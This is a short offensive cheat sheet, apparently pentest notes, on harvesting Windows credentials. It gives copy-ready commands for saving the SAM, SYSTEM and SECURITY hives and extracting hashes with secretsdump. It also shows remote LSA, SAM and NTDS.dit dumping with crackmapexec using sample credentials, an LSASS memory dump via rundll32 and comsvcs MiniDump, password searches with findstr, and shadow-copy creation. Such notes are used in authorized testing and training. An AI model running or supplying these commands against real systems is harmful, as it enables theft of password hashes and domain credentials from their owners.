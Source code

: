 # Cred Hunting

## Copying SAM Registry Hives

If we have local admin access on target, we could copy three registry SAM hives, which would help us to dump and crack hashes



| Registry Hive | Description                                                                         |
| ------------- | ----------------------------------------------------------------------------------- |
| HKLM\sam      | Hashes associated with local account passwords                                      |
| HKLM\system   | System bootkey, which is encryption/decryption key for SAM                          |
| HKLM\security | Cached credentials for domain accounts, it is not 100% needed, but would help a lot |

For dumping hives we would use reg.exe as admin

```powershell
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save
The operation completed successfully.
```

### Running secretsdump.py

```bash
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCA
```

***

## **Remote Dumping**

### **Dumping LSA Secrets Remotely**

```bash
crackmapexec smb 13.13.13.13 --local-auth -u amogus -p 1mp0st3r --lsa
```

### Dumping SAM Remotely&#x20;

```bash
crackmapexec smb 13.13.13.13 --local-auth -u amogus -p 1mp0st3r --sam
```

### Dumping  NTDS.dit Remotely

```bash
crackmapexec smb 13.13.13.13 -u amogus -p 1mp0st3r --ntds
```

***

## LSASS Dumping

**Rundll32.exe & Comsvcs.dll Method**

<mark style="color:red;">IMPORTANT: Anitivirus would see this as malicious activity.</mark> The point of method is that we use <mark style="color:blue;">**rundll32.exe**</mark> to call an exported function of <mark style="color:blue;">**comsvcs.dll**</mark> which also calls the **MiniDumpWriteDump** (**MiniDump**) function to dump the **LSASS** process memory to a specified directory (**C:\lsass.dmp**). But to do this we'll need a LSASS PID. with <mark style="color:blue;">**`tasklist /svc`**</mark> in **cmd** or <mark style="color:blue;">**`Get-Process lsass`**</mark> in **powershell**. With PID we could dump LSASS memory.

```powershell
PS C:\Windows\system32> rundll32 C:\windows\system32\comsvcs.dll, MiniDump 666 C:\lsass.dmp full
```

***

## Finding credentials with findstr

```powershell
C:\> findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml
```

***

## Creating Shadow Copy of C:

```powershell
PS C:\> vssadmin CREATE SHADOW /For=C:
```

***

## Stealing NTDS.dit using CME

```bash
crackmapexec smb 13.13.13.13 -u amogus -p 1mp0st3r --ntds
```

***

